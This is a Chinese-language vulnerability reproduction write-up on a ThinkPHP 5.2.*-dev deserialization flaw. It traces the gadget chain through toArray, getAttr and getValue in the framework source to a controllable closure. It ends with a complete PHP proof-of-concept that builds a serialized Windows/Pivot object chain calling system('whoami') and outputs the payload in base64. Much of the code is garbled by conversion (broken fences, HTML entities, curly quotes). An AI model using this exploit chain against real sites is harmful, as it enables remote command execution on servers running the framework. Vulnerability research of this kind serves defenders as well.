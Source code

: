 # Thinkphp 5.2.*-dev 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3178](https://www.zhihuifly.com/t/topic/3178)

# Thinkphp 5.2.*-dev 反序列化漏洞

## 一、漏洞简介

所有Thinkphp版本下载链接

https://packagist.org/packages/topthink/framework

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.2.*-dev v5.2 
```

### poc演示截图

![image](img/9fae507749799ec7d8d1843cc6ee5f62.png)

### 调用链

![image](img/c5937d782d2ae1e8ad0db3b57de2066b.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到$data可控

```
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation); `foreach ($data as $key => $val) {

if ($val instanceof Model || $val instanceof ModelCollection) {

// 关联模型对象

if (isset($this->visible[$key])) {

$val->visible($this->visible[$key]);

} elseif (isset($this->hidden[$key])) {

$val->hidden($this->hidden[$key]);

}

// 关联模型对象

$item[$key] = $val->toArray();

} elseif (isset($this->visible[$key])) {

$item[$key] = $this->getAttr($key);

} elseif (!isset($this->hidden[$key]) && !$hasVisible) {

$item[$key] = $this->getAttr($key);

}

}

。。。` 
```

```
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
} 
```

```
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   } 
```

```
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
} 
```

可以看到getAttr函数中的$value可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);

```
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

```
if (isset($this-&gt;withAttr[$fieldName])) {
   if ($relation) {
     $value = $this-&gt;getRelationValue($name);
   }

   $closure = $this-&gt;withAttr[$fieldName];
   $value   = $closure($value, $this-&gt;data); 
``` 
```

这里$fieldName、$this->withAttr，导致$closure也可控，最终直接产生RCE。如下图

![image](img/9ad327227b78ad270b21e31af6652c48.png)

补充：

```
<?php `$a = array();

system(‘whoami’,$a);` 
```

![image](img/b135dc17065f29ccf075c7c7d8d918b5.png)

![image](img/2575e19baf4b56d343a181b060ff9327.png)

### poc v5.2.*-dev

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {

trait Conversion

{

protected $append = array(“Smi1e” => “1”);

}

```
trait Attribute
{
    private $data;
    private $withAttr = array("Smi1e" =&gt; "system");

    public function get($system)
    {
        $this-&gt;data = array("Smi1e" =&gt; "$system");
    }
} 
```

}

namespace think {

abstract class Model

{

use model\concern\Attribute;

use model\concern\Conversion;

}

} `namespace think\model{

use think\Model;

class Pivot extends Model

{

public function __construct($system)

{

$this->get($system);

}

}

}

namespace{

$Conver = new think\model\Pivot(“whoami”);

$payload = new think\process\pipes\Windows($Conver);

echo base64_encode(serialize($payload));

}

?>` 
```